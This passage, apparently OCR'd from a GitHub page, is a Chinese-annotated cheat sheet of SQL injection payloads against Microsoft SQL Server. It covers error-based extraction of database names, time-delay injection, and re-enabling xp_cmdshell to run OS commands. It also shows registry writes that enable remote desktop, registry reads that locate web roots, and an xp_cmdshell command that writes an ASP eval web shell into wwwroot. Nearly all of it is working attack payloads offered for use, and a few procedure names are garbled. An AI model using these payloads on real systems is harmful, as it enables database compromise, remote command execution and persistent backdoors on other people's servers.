 	#直接与数字比较
	id=1 and @@version>0--
	id=1 and user>0--
	id=1 and db_name()>0--
	
	#将数据转换成整数致报错,可用于爆库名，表名，数据名
	id=1 and 1=convert(int,(select name from master.dbo.sysdatabases where dbid=7))--
	
	#having 1=1爆数据
	id=13 having 1=1 --
	id=13 group by 表名.字段名1,字段名2 having 1=1 --
延时注入

	#延时3秒
	IF(ascii(SUBSTRING('name',1,1))>0) waitfor delay'0:0:3'
命令执行

	#判断功能是否存在
	and select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'
	and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'xp_regread') #注册表
	and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'sp_makewebtask') #备份
	and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'sp_addextendedproc') #恢复扩展
	and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'xp_subdirs') #读取子目录
	and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'xp_dirtree') #列目录
	
	#恢复与删除扩展
	exec sp_addextendedproc xp_cmdshell,'xplog70.dll'
	exec sp_dropextendedproc 'xp_cmdshell'
	
	#恢复xp_cmdshell
	EXEC sp_configure 'show advanced options', 1;RECONFIGURE WITH OVERRIDE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE WITH OVERRIDE;EXEC sp_configure 'show advanced options', 0 --
	
	#访问COM组件
	;declare @s int;
	;exec sp_oacreat 'wscript.shell',@s
	;exec master..spoamethod @s,'run',null,'cmd.exe/c dir c:\
	
	#执行命令
	EXEC xp_cmdshell 'net user';
	
	#写注册表
	exec master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;--
	
	#读注册表
	create table labeng(lala nvarchar(255), id int);
	DECLARE @result varchar(255) EXEC master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots','/',@result output insert into labeng(lala) values(@result); #读网站目录
	
	#写shell
	exec master.dbo.xp_cmdshell 'echo ^<%eval request("o")%^> >E:\wwwroot\1.asp'; --
	
	#停掉或激活某个服务
	exec master..xp_servicecontrol 'stop','schedule'
	exec master..xp_servicecontrol 'start','schedule'
	